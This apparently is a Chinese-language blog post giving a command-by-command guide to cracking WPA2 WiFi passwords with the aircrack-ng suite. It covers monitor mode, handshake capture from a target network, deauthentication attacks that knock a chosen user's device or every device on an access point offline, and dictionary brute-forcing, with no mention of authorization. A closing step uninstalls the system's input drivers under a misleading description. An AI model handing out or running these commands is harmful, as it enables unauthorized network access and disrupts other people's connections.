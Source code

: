 ```yaml
---
title: wifi密码破解
top: false
cover: false
toc: true
mathjax: true
date: 2023-01-16 06:29:43
password:
summary: Wifi密码暴力破解，不一定成功
tags: wifi
categories: Linux
---
```


### aircrack-ng工具安装
> 如果你是Kali用户，那么可以跳过这一步，Kali自带，我们以Ubuntu为例：
```shell
sudo apt install aircrack-ng # 安装aircrack-ng 这个工具kali-linux默认安装了
```

### 查看无线网卡
```shell
airmon-ng # 查看可用的无线网卡一般以`w`开头
```

### 开启监听模式
```shell
airmon-ng start <网卡名称> # 指定无线网卡开启监听模式
```

### 扫描附近的无线网
```shell
airodump-ng <处于监听模式的网卡名称> # 用这个监听网卡扫描附近的无线网络

# airodump-ng wlp8s0mon
# BSSID: 无线 AP 的硬件地址
# PWR: 信号强度，值是负数，绝对值越小表示信号越强
# CH: 无线网络信道
# ENC: 加密方式，我们要破解的是 WPA2
# ESSID: 无线网络的名称
```

### 监听你想破解的无线网
```shell
airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称> # 使用参数过滤扫描列表，确定扫描目标,可以出指定wifi哪些人在使用 只要有人链接这个wifi就会被抓包

# BSSID: 无线 AP 的硬件地址
# STATION: 用户设备的硬件地址
```

### 对无线AP或者用户设备发起ACK攻击
```shell
aireplay-ng -<攻击模式(0为下线)> <攻击次数(0为一直攻击)> -a 无线 AP 硬件地址> -c <用户设备硬件地址> <处于监听模式的网卡名称> # 使用 aireplay-ng 对目标设备发起ack攻击 让他强制下线 方便他重新链接抓包成功

aireplay-ng -<攻击模式(0为下线)> <攻击次数(0为一直攻击)> -a 无线 AP 硬件地址> <处于监听模式的网卡名称> # 使用 aireplay-ng 对无线AP设备发起ack攻击 让连接他的设备都下线 方便他重新链接抓包成功
```

### 破解密码
```shell
aircrack-ng -w 密码字典 <包含握手包的 cap 文件> # 使用 aircrack-ng 暴力破解 Wi-Fi 密码 成功会返回 KEY FOUND! 密码字典去网上下载多得很 
```

### 退出监听模式，连接无线网
```shell
airmon-ng stop <处于监听模式的无限网卡名称> # 无线网卡退出监听模式
```

### 使用命令连接网络
```shell
sudo systemctl start NetworkManager # 开启网络服务

ip addr 或者 ifconfig # 查看无线网卡名称(w开头得)

iwlist 无线网卡 scanning | grep -i essid # 扫描可用wifi

nmcli device wifi connect wifi名字 password wifi密码 ifname 无线网卡 # 用这个无线网卡链接指定wifi
```

### 卸载ubuntu系统的IO驱动，不让别人乱碰你得电脑
```shell
sudo apt install xserver-xorg-input-all # 安装

sudo apt autoremove xserver-xorg-input-all # 卸载
```


